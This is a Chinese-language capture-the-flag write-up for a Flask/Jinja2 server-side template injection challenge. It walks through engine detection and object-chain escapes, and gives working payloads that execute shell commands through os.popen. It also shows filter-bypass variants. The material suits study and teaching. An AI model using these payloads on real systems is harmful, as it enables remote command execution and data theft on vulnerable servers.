


# [BJDCTF 2nd] fake google — 我的第一道 SSTI

> **题目类型**：Web — Flask / Jinja2 模板注入（SSTI）
>
> **题目地址**：BUUCTF / ctf2 复刻环境
>
> **Flag**：`CTF2{4ba1fadc-b09a-441d-baf8-191ea2b8a4dd}`

---

## 题目概述

进入界面只有一个输入框。

**先试 SQL 注入，发现无论输入什么，它都直接打印出来——不像是在查数据库。**

**查看源码，在 `qaq` 那个位置发现了提示：`sssssti & a little trick`。这就是 SSTI，模板注入。**

**这是我第一次做 SSTI，所以每一步都写下来了。**

---

## 解题过程

### Step 1：确认模板被执行

```text
{{7*7}}   →  49
```

**如果回显的是 `{{7*7}}` 原文，说明只是字符串拼接；回显 49，说明你的输入进了模板引擎，被真的求值了。**

### Step 2：确认是 Jinja2

```text
{{7*'7'}}  →  7777777
```


**这个探针是用来区分引擎的：Jinja2 里 `'7'` 是字符串，重复 7 次得到 `7777777`；Twig（PHP）里会当成数字，得到 49。**

### Step 3：确认是 Flask

```text
{{config}}   →  Flask 的配置对象
```

**`config` 是 Flask 注入模板的全局变量。它出现就说明是 Flask，顺便还可能看到 SECRET_KEY。**

**到这一步，两条路都可以走了。**

---

## 路线一：从字面量往上爬（通用链）

**这条路不依赖任何框架给的名字，只靠 Python 的对象关系。**

### 第一环：字符串的类

```text
{{''.__class__}}     →  <class 'str'>
```

### 第二环：它的父类

```text
{{''.__class__.__bases__[0]}}   →  <class 'object'>
```

**⚠️ 这里有个坑：`__base__`（单数）是**一个类**，不能下标；`__bases__`（复数）是**元组**，才能写 `[0]`。写成 `__base__[0]` 会返回空。**

### 第三环：所有子类

```text
{{''.__class__.__bases__[0].__subclasses__()}}   →  一大串类
```

**这一步是分水岭：拿到的是内存里**所有已加载的类**。**

### 第四环：找一个“身上带着模块全局空间”的类

**核心思路：找一个 `__init__.__globals__` 里带 `__builtins__` 或者直接带 `os` 的类。**

**常见的几个候选：**

```text
catch_warnings        → warnings 模块，globals 里有 __builtins__
_wrap_close           → os 模块，globals 里直接有 popen
Popen                 → subprocess
FileLoader            → importlib
```

**怎么知道它们在列表第几个？我写了个本地脚本扫了一遍：**



```python
import sys
for i, c in enumerate((''.__class__.__bases__[0].__subclasses__())):
    if c.__name__ in ('catch_warnings', '_wrap_close', 'Popen', 'FileLoader'):
        print(i, c.__name__, '->', c.__module__ + '.' + c.__name__)
```

**⚠️ 下标是环境相关的。**同样的脚本，在不同 Python 版本、不同 import 顺序下会给出不同的数字。我这边 `catch_warnings` 是 169、`_wrap_close` 是 117，靶机正好一致才打通的。**换个环境就得重扫，或者用按名字筛的写法**（见文末）。

### 第五环：用 `_wrap_close` 直接拿 popen

```text
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('cat /flag').read()}}
```

**`_wrap_close` 是 `os` 模块里的类，它的 `__init__.__globals__` 就是 `os` 模块的全局空间，里面直接有 `popen`，一步到位。**

### 另一种：用 `catch_warnings` 走 `__builtins__`

```text
{{''.__class__.__bases__[0].__subclasses__()[169].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /f*').read()")}}
```

**为什么要绕 `eval` 和 `__import__`？因为 `catch_warnings` 的 globals 里没有 `os`，但有 `__builtins__`；`__builtins__` 里有 `__import__`，能 import 就能拿到任何模块。**

**（`__builtins__` 在不同上下文里有时是 dict、有时是模块，所以有的写法用 `['__builtins__']`，有的用 `.builtins__`——注意前者是取键，后者是取属性。）**

---

## 路线二：从框架给的钩子走（快）

**既然确认了是 Flask，就先看看模板里现成给了什么：**

```text
{{url_for}}   →  <function url_for at 0x...>
```



**它是函数——函数身上就有 `__globals__`。所以不需要爬几百个子类：**

```text
{{url_for.__globals__}}                  →  一大坨 dict
{{(url_for.__globals__)['os']}}          →  <module 'os' ...>
{{(url_for.__globals__)['os'].popen('cat /f*').read()}}
```

**三行就出 flag。**

**这就是两条路的区别：**

```text
路线一（长）：'' → 类 → 父类 → 所有子类 → 挑一个 → __globals__ → 执行
路线二（短）：url_for → __globals__ → os → 执行
```

**路线二快，但依赖 Flask 注入了 `url_for`；路线一慢，但只要是 Python 就通。实战里先试短的，不通再走长的。**

---

## 解题思路总结

```text
一个输入框 → 试 SQL 注入，内容被原样打印
  → 看源码，qaq 里有提示 sssssti
    → {{7*7}} = 49        确认模板被执行
      → {{7*'7'}} = 7777777  确认是 Jinja2
        → {{config}}        确认是 Flask
          ├─ 路线一：'' → __class__ → __bases__[0] → __subclasses__()
          │           → 挑 _wrap_close(117) / catch_warnings(169)
          │             → __init__.__globals__ → popen / __builtins__ → 执行
          └─ 路线二：url_for → __globals__ → ['os'] → popen → 执行
```

### 漏洞原理

**① Jinja2 的 `{{ }}` 里是表达式，会被求值**

**用户输入被拼进模板字符串后，`{{ }}` 里的内容不再当文字，而是交给 Python 求值。这是 SSTI 成立的第一步。**

**② Python 的属性访问没有边界**

**从任何一个对象出发，都能顺着 `__class__`（类）→ `__mro__` / `__bases__`（父类）→ `__subclasses__()`（所有子类）→ `__init__.__globals__`（定义时的模块空间）走到执行。这不是漏洞，是语言特性；漏洞在于**模板允许你访问这些属性**。**

**③ 框架注入的全局变量是“现成的入口”**

**Flask 会把 `config`、`request`、`session`、`url_for`、`lipsum`、`get_flashed_messages` 放进模板名字空间。它们本身是函数或对象，身上挂着 `__globals__`，等于给了一条捷径。**

### 关键知识点

| 知识点 | 说明 |
|---|---|
| `{{7*7}}` / `{{7*'7'}}` | 引擎探测：回显 49 / 7777777 说明是 Jinja2 |
| `{{config}}` | Flask 的模板全局，能确认框架、有时能读到 SECRET_KEY |
| `__class__` | 任何对象都能拿到它的类 |
| `__base__` vs `__bases__` | 前者是单个父类（不可下标），后者是元组（可 `[0]`） |
| `__subclasses__()` | 内存里所有已加载的类，但**下标因环境而异** |
| `__globals__` | 函数定义时所在的模块全局空间（只有 Python 层函数有，C 层 wrapper 没有） |
| `__builtins__` | 里面有 `__import__`，能 import 就能拿任何模块 |
| 点号 vs 方括号 | `.` 取属性，`['x']` 取键，不能写成 `.['x']` |
| 生成器 | `map` / `selectattr` 返回惰性生成器，要 `\|first` 或 `\|list` 才有值 |
| 按名字筛代替下标 | `\|selectattr('__name__','equalto','xxx')\|first`，跨环境稳定 |
| 遇到过滤 `.__globals__` | 用 `\|attr('__globals__')` 换形状（本题没有过滤，用不上） |

---

??? note "两条链的完整 payload（本题实测）"

    ```jinja
    # 路线一 · _wrap_close：globals 里直接有 popen
    {{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('cat /flag').read()}}

    # 路线一 · catch_warnings：走 __builtins__ → __import__
    {{''.__class__.__bases__[0].__subclasses__()[169].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /f*').read()")}}

    # 路线二 · url_for 短路
    {{(url_for.__globals__)['os'].popen('cat /f*').read()}}
    ```

??? note "跨环境更稳的写法：按名字找，不记下标"

    ```jinja
    {{''.__class__.__bases__[0].__subclasses__()|selectattr('__name__','equalto','catch_warnings')|first|attr('__init__').__globals__}}
    ```

    **`selectattr` 按属性名筛，`\first` 取第一个 —— 不需要知道它在第几个。**
    **如果连 `.__globals__` 这种形状都被过滤，就换成 `|attr('__globals__')`。**
